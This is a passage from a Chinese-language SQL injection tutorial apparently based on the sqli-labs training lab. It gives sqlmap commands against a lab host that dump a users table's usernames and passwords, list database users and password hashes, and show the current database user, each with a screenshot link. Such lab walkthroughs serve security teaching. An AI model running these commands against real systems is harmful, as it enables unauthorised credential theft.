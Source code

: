 命令：sqlmap -u http://192.168.10.150/sqlilabs/Less-1/?id=1 -D security -T users -C username,password -dump

![img](https://s2.loli.net/2023/03/12/mB9CqSeUgVhANix.jpg) 

### 5.3.2.**案例**sql-labs-less-1 其他注入

#### 5.3.2.1.**获取数据库下所有用户**

命令：sqlmap -u http://192.168.10.150/sqlilabs/Less-1/?id=1 -users   

![img](https://s2.loli.net/2023/03/12/Y4vzpE1ysAtKQNM.jpg) 

#### 5.3.2.2.**获取数据库下密码**

命令：sqlmap -u http://192.168.10.150/sqlilabs/Less-1/?id=1 -passwords

![img](https://s2.loli.net/2023/03/12/diZwzJhqNpmE1Kr.jpg) 

#### 5.3.2.3.**查看数据库当前用户**

命令：sqlmap -u http://192.168.10.150/sqlilabs/Less-1/?id=1 -current-user

![img](https://s2.loli.net/2023/03/12/x3rSweULfgRXakZ.jpg) 
